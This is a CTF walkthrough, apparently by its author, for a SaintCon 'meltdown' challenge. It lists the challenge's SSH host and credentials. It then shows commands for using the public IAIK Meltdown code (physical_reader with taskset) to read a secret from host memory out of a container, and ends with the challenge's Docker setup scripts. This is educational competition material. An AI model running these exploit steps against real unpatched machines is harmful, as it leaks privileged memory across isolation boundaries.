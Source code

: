 
# Hint

```
I'll stop the world and melt with you.

https://www.youtube.com/watch?v=LuN6gs0AJls
https://genius.com/Modern-english-i-melt-with-you-lyrics

host: 208.71.143.18
protocol: ssh
port: 1337
user: rigel
password: dontmeltme
```

# additional hints

These "hints" were added after the contest started.

```
Brute forcing all of memory for meltdown will take longer than the con lasts. Dont' do it.

Don't leave processes running for more than a minute or so.

(and clean up after yourself, please =)
```

# solution

The goal of this challenge is to exploit the meltdown vulnerability
to recover a key stored in another container (actually the root host).
I wasn't subtle about what the vulnerability was (title of the
challenge was "meltdown" afterall), but the question is really
where is the key?

Well, when you're given ssh access to a host, you should -always- go
poking around and see what's there.

```
$ ssh [ipaddress] -l rigel -p [port num]
rigel@nyx.home's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Oct 28 11:44:27 MDT 2019

  System load:  2.0                Processes:              161
  Usage of /:   0.6% of 436.15GB   Users logged in:        0
  Memory usage: 0%                 IP address for eth1:    172.16.0.17
  Swap usage:   0%                 IP address for docker0: 172.17.0.1

  Graph this data and manage this system at:
    https://landscape.canonical.com/

203 packages can be updated.
149 updates are security updates.

Last login: Mon Oct 28 11:44:27 2019 from ec2-3-93-103-205.compute-1.amazonaws.com
rigel@bf1593ce9345:~$ who
rigel@bf1593ce9345:~$ find .
.
rigel@bf1593ce9345:~$ id -a
uid=1001(rigel) gid=1001(rigel) groups=1001(rigel)
rigel@bf1593ce9345:~$ tail /etc/passwd
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
jason:x:1000:1000:Jason Wright,,,:/home/jason:/bin/bash
rigel:x:1001:1001::/home/rigel:/bin/dosh
```

Ok, so there's nothing in our own home directory, but there is another user
called "jason".

```
rigel@bf1593ce9345:~$ find ~jason
/home/jason
/home/jason/.bash_history
rigel@bf1593ce9345:~$ cat ~jason/.bash_history
sudo taskset 1 ./secret > /tmp/testing
rigel@bf1593ce9345:~$ cat /tmp/testing
[+] Physical address of secret: 0x7f9aa69a0
[+] Exit with Ctrl+C if you are done reading the secret
```

Ah hah! It seems "jason" was experimenting with the meltdown vulnerability,
and it seems the secret might be at physical address 0x7f9aa69a0 (note:
the actual address changes each time I boot the host OS, but I ensure that
the `/tmp/testing` file is accurate.

```
rigel@bf1593ce9345:~$ git clone https://github.com/IAIK/meltdown.git
Cloning into 'meltdown'...
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 292 (delta 0), reused 1 (delta 0), pack-reused 288
Receiving objects: 100% (292/292), 30.43 MiB | 1.32 MiB/s, done.
Resolving deltas: 100% (161/161), done.
rigel@bf1593ce9345:~$ cd meltdown
rigel@bf1593ce9345:~/meltdown$ taskset 1 ./physical_reader 0x7f9aa69a0
[+] Physical address       : 0x7f9aa69a0
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff8807f9aa69a0

^C
```

Well, that didn't work (sometimes it does, but usually not). Buried in the README for
meltdown is the text "It just does not work on my computer". Most of the suggestions
are not viable given the level of access you have (i.e. you're not disabling hyperthreads
in the BIOS, etc.). But, one says:


> Use a different variant of Meltdown. This can be changed in libkdump/libkdump.c in the line
> #define MELTDOWN meltdown_nonull. Try for example meltdown instead of meltdown_nonull,
> which works a lot better on some machines (but not at all on others).

On this particular machine, setting MELTDOWN to meltdown works well.

```
rigel@bf1593ce9345:~/meltdown$ vi libkdump/libkdump.c
rigel@bf1593ce9345:~/meltdown$ make
...
rigel@bf1593ce9345:~/meltdown$ taskset 1 ./physical_reader 0x7f9aa69a0
[+] Physical address       : 0x7f9aa69a0
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff8807f9aa69a0

ctf{yougotyourspectreinmymeltdown}

^C

```

# common errors

I found several folks trying to use `memdump` from the meltdown archives to dump all of
physical memory. That's effective (maybe), but would take longer than the 3.5 days of saintcon,
and you'd still need to find the key in the dump you retrieved.

Several folks left out the "taskset" part of the command line. It matters: only cpu core 1
has the key forced into the cache. The other 7 cores may or may not (most likely not) have the
physical address in cache.

# setting up the challenge

This is the behind the scenes of how the challenge was configured.

On the host, I ran
a modified version of the meltdown "secret" program. The only real modification was to
read the secret from a file and to fflush() it's output after it printed the physical
address information. This program runs as root on the host (it needs access to
`/proc/$pid/pagemap` to compute the physical address of the key). After printing the
location, it sets in a busy loop constantly reading the memory address (which forces
it to stay resident in the cache).

Users were allowed to `ssh` into the machine... ok, not really, the "rigel" user has
a shell of "dosh" which looks like:

```
#!/bin/bash
sudo /bin/shell2docker
```

(note: /bin/dosh was added to `/etc/shells` too)

And `/bin/shell2docker` looks like:

```
#!/bin/bash
if [ $SUDO_USER ]; then
  username=$SUDO_USER
else
  username=$(whoami)
fi
uid="$(id -u $username)"
gid="$(id -g $username)"
docker run --rm -it \
  -u $uid:$gid -it \
  --cap-drop=all \
  -v /etc/passwd:/etc/passwd:ro \
  -v /etc/group:/etc/group:ro \
  hello
```

This dumps the user into a temporary (--rm) docker container with the priviledges of the
"rigel" user. The docker container name is the descriptively named "hello" container.
It's dockerfile looks like:

```
FROM ubuntu
WORKDIR /home/rigel

RUN apt-get update; apt-get -y install build-essential git-core
RUN apt-get -y install \
    nano \
    screen \
    tmux \
    vim

COPY testing /tmp/testing
RUN chown 1000:1000 /tmp/testing
RUN chmod 644 /tmp/testing
RUN install -d -o 1000 -g 1000 -m 755 /home/jason
COPY bash_history /home/jason/.bash_history
RUN chown 1000:1000 /home/jason/.bash_history
RUN chmod 644 /home/jason/.bash_history
RUN chown 1001:1001 /home/rigel

CMD ["/bin/bash", "-l", "-i"]
```

This container is rebuilt each time the machine boots (after secret is running) to
include the new `/tmp/testing` file.

# author

This challenge and walkthrough was created by Jason L. Wright
[jason@thought.net](mailto:jason@thought.net),
[@risenrigel](https://twitter.com/risenrigel)
